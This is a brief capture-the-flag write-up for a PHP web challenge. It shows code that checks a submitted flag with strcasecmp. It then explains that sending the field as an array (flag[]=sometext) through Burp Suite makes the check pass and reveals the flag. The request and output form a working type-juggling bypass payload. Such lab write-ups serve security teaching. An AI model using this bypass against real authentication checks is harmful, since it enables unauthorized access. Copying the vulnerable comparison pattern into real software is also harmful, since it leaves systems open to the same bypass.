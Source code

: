 ```
 if (! strcasecmp ($_POST['flag'], $flag))
               echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>'; 
```                     

"The strcasecmp() function will return 0 if any of the parameters is an array"

STEP 1: Intercept in Burp Suite

STEP 2: flag=sometext&submit=Go
OUTPUT: Invalid flag, sorry.

STEP 3: flag[]=sometext&submit=Go
OUTPUT: WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}

REFERENCE: https://eatingrsa.wordpress.com/tag/login-bypass/
